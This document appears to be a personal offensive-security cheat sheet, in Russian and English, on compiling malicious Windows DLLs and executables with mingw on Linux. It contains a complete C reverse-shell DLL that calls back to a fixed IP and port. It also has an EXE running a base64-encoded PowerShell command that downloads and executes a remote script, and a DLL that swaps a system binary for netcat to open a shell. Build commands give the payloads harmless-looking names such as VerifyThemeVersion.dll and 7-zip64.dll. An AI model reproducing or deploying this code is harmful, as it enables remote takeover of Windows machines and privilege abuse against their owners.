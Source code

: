 # c#c++
 
regsvr32.exe ReverseShellDLL.dll (запуск dll)
 
-static     компиляция со всеми билиотеками во внутрь

# Cоздание dll на с++

sudo apt install mingw-w64

x86_64-w64-mingw32-gcc-win32 shell.c -shared -lws2_32 -o VerifyThemeVersion.dll

x86_64-w64-mingw32-gcc xll.c -shared -o test.xll

# сщздание exe на с++

	x86_64-w64-mingw32-gcc main.c -o shell.exe

python3 -m pefile exports VerifyThemeVersion.dll (скажет что за функции находятся внутри)

rundll32 shell,0

# самый простой exe shell 
 
	#include <windows.h>

	int main() {
	    WinExec("powershell -enc 		SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADIANwA6ADgAMAAwADAALwBzAGgAZQBsAGwAXwA5ADAAMAAxAC4AcABzADEAJwApAAoA", 1);
		}



----------------------
    #include <winsock2.h>
    #include <windows.h>
    #include <io.h>
    #include <process.h>
    #include <sys/types.h>
    #include <stdio.h>
    #include <stdlib.h>
     #include <string.h>



static int ReverseShell(const char *CLIENT_IP, int CLIENT_PORT) {

        WSADATA wsaData;
        if (WSAStartup(MAKEWORD(2 ,2), &wsaData) != 0) {
                write(2, "[ERROR] WSASturtup failed.\n", 27);
                return (1);
        }

        int port = CLIENT_PORT;
        struct sockaddr_in sa;
        SOCKET sockt = WSASocketA(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);
        sa.sin_family = AF_INET;
        sa.sin_port = htons(port);
        sa.sin_addr.s_addr = inet_addr(CLIENT_IP);


        if (connect(sockt, (struct sockaddr *) &sa, sizeof(sa)) != 0) {
                write(2, "[ERROR] connect failed.\n", 24);
                return (1);
        }


        STARTUPINFO sinfo;
        memset(&sinfo, 0, sizeof(sinfo));
        sinfo.cb = sizeof(sinfo);
        sinfo.dwFlags = (STARTF_USESTDHANDLES);
        sinfo.hStdInput = (HANDLE)sockt;
        sinfo.hStdOutput = (HANDLE)sockt;
        sinfo.hStdError = (HANDLE)sockt;
        PROCESS_INFORMATION pinfo;
        CreateProcessA(NULL, "cmd", NULL, NULL, TRUE, CREATE_NO_WINDOW, NULL, NULL, &sinfo, &pinfo);

        return (0);
}

void DllMain() {
        ReverseShell("192.168.50.123", 9001);
//        ReverseShell("10.10.14.20", 9001);
}
-----------------------------------------Вызывалка----------------------

x86_64-w64-mingw32-gcc-win32 test.c  -o test.exe
    --------------------------------
#include <windows.h>
#include <stdio.h>

int main( void )
{
        HINSTANCE hDll;

        // Load Dll
        hDll = LoadLibrary(TEXT("max.dll"));

        // If Dll Was Loaded
        if (hDll != NULL){
                printf("DLL Found\n");
                } else {
                printf("DLL Not Found");
                }
        return 0;
}

----------------------------------------------------ДЛЛКА

x86_64-w64-mingw32-gcc-win32 max.c  -o max.dll -shared

   ------------------------------------------

#include <windows.h>

BOOL WINAPI
DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved)
{
        switch (dwReason)
        {
         case DLL_PROCESS_ATTACH:
          MessageBox(NULL,
                        "dsfvsdfsd",
                        "dsvsdvs",
                        MB_ICONERROR | MB_OK);
        break;
        }
return TRUE;
}


# Простая DLL на С

#include <windows.h>

BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved)

{
  switch (dwReason)
{
case DLL_PROCESS_ATTACH:
        system("cmd.exe /c whoami /all > c:\\users\\public\\pleasesub.txt");

        system("cmd.exe /c takeown /F c:\\share\\bginfo64.exe");
        system("cmd.exe /c cacls c:\\share\\bginfo64.exe  /E /G ginawild:F");
        system("cmd.exe /c icacls c:\\share\\bginfo64.exe >> c:\\users\\public\\pleasesub.txt");

        system ("cmd.exe /c copy c:\\inetpub\\wwwroot\\data\\sites\\1\\media\\nc64.exe c:\\share\\bginfo64.exe");

        system ("cmd.exe /c copy c:\\inetpub\\wwwroot\\data\\sites\\1\\media\\nc64.exe c:\\share\\nc64.exe");

        system("cmd.exe /c c:\\share\\bginfo64.exe -e cmd.exe 10.10.14.37 9002");
        system("cmd.exe /c ping 10.10.14.37");

        break;
}
return TRUE;
}


x86_64-w64-mingw32-gcc-win32 script.c -o 7-zip64.dll -shared


-----------------------------------------
# Компиляция C# из линукс

sudo apt install mono-devel

mcs -target:library -out:Shell.dll Shell.cs

# Компиляция CS
	и активация webdav https://gist.githubusercontent.com/klezVirus/af004842a73779e1d03d47e041115797/raw/29747c92ca04c844223d1ef6c1463d7e34e271ee/EtwStartWebClient.cs
	mcs startweb.cs /unsafe -out:start.exe
